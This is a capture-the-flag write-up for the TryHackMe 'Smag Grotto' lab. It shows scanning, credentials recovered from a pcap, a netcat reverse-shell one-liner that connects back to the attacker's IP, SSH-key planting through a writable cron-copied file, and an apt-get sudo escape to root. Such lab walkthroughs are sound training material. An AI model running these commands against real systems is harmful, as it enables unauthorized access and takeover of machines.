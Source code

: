 ```yaml
---
title: "TryHackMe - Smag Grotto"
author: Nasrallah
description: ""
date: 2022-12-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, wireshark, ssh-keygen, sudo, cronjob]
img_path: /assets/img/tryhackme/smaggrotto
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Smag Grotto](https://tryhackme.com/room/smaggrotto) from [TryHackMe](https://tryhackme.com). On a webpage we find a pcap file that contains credentials for a login page, we use them to login and find out we can run commands on the system so we use that to get a reverse shell. After that we exploit a cronjob running to escalate to another user on the system. A sudo entry then is used to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.49.239
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH and port 80 running Apache http web server.

## Web

Let's navigate to the web page.

![](1.png)

We see the welcome page of Smag informing us that the site in under development.

## Ffuf

Let's run a directory scan.

```terminal
└──╼ $ ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.49.239/FUZZ                                                                        1 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.49.239/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 138ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 135ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 132ms]
                        [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 142ms]
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 166ms]
mail                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 216ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 141ms]
:: Progress: [4614/4614] :: Job [1/1] :: 75 req/sec :: Duration: [0:01:10] :: Errors: 0 ::
```

We found a page called **page**, let's check it out.

![](2.png)

As expected, we see emails between the website's admins/developers, in one of the emails we see a pcap file, let's download it and inspect it using `wireshark`.

## Wireshark

![](3.png)

We can see a `POST` request to `login.php`, let's see the request's body by right clicking on it -> Follow -> HTTP stream.

![](4.png)

We found a username and password.

The `login.php` is located at `development.smag.thm`, let's add the domain and subdomain to our /etc/hosts file.

![](5.png)

Now let's navigate to `http://development.smag.thm/`.

![](6.png)

Let's go to the login page.

![](7.png)

Using the credentials we found in the pcap file, let's login.

![](8.png)

# **Foothold**

We can enter commands here, i tried some commands like `id` and `whoami` but didn't get any response, so i tried to get a reverse shell using the following command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.18.0.188 9001 >/tmp/f
```

I setup a netcat listener, run the command and got the shell.

![](9.png)

# **Privilege Escalation**

After some enumeration, we check the crontab file and find the following:

```terminal
www-data@smag:/opt/.backups$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

There is a cronjob running every minute printing the content of `/opt/.backups/jake_id_rsa.pub.backup` to `/home/jake/.ssh/authorized_keys`.

Let's check the `jake_id_rsa.pub.backup` file.

![](10.png)

We can modify that file, so let's copy our own public key to it, wait a minute and try to connect as jake via ssh.

First, we generate a new key pair using `ssh-keygen`

![](11.png)

Now copy the public key to `jake_id_rsa.pub.backup` file.

![](13.png)

Now we wait a bit and connect as jake using our ssh private key.

![](14.png)

Great! Now let's check our current privileges with `sudo -l`.

```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```

We see that we can run `apt-get` as root, let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo).

![](15.png)

We see three different ways to get root, but we'll use the 3rd one.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

